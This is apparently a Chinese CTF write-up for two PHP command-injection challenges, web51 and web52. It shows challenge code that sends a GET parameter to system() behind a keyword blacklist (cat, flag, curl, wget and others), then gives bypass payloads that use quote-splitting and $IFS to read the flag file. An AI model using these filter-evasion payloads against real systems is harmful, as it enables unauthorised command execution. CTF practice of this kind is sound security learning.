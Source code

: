 ```php
```

过滤了

> \;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\<

我测怎么连< >都要过滤

别忘了还可以用$IFS

```
ca%27%27t$IFS/fla%27%27g||
or
ca%27%27t$IFS/fla%27%27g%0a
```

#### web52

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 18:21:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</

这题没有在后面进行命令拼接，其他和上一题一样
